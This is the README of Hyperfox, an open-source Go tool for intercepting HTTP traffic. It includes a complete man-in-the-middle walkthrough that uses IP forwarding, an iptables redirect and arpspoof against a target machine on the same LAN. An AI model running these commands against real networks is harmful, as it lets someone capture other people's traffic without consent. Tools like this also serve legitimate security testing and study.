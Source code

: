 # Hyperfox

[Hyperfox][1] is a tool for proxying and recording HTTP and HTTPs
communications on a LAN.

The `github.com/xiam/hyperfox` package is a [Go][2] framework for creating
custom [man in the middle][3] or traffic interception tools, such as
[Hyperfox][1].

## Getting Hyperfox

Install with [Go][1] and [git][5] using `go get`:

```sh
> go get github.com/xiam/hyperfox
```

Precompiled packages may also be available at the [hyperfox.org][1] site.

## A common example: hyperfox with arpspoof

The following example assumes that hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the `arpspoof` tool that is part of the [dsniff][4] suite
to alter the ARP table of the target machine in order to make it redirect its
traffic to Hyperfox instead of to the legitimate LAN gateway. This is an
ancient technique known as [ARP spoofing][6].

First, identify both the local IP of the legitimate gateway and the matching
network interface.

```
> sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
...
```

The interface in our example is called `wlan0` and the gateway for that
interface is `10.0.0.1`.

```
> export HYPERFOX_GW=10.0.0.1
> export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```
> export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```
> sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule to instruct the host to redirect all traffic that goes
to port 80 (commonly HTTP) to a local port where Hyperfox is listening to
(9999).

```
sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 9999
```

We're almost ready, prepare hyperfox to receive traffic:

```
> hyperfox
2014/12/30 06:57:22 Hyperfox // https://www.hyperfox.org
2014/12/30 06:57:22 By José Carlos Nieto.

2014/12/30 06:57:22 See status at http://127.0.0.1:3030/
2014/12/30 06:57:22 Listening for HTTP client requests on 0.0.0.0:9999.
```

Finally, run `arpspoof` to alter the target's ARP table so it starts sending
its network traffic to the host box.

```sh
> sudo arpspoof -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

## Contributing to Hyperfox development

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-2014 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: http://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: http://monkey.org/~dugsong/dsniff/
[5]: http://git-scm.com
[6]: http://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/xiam/hyperfox/issues
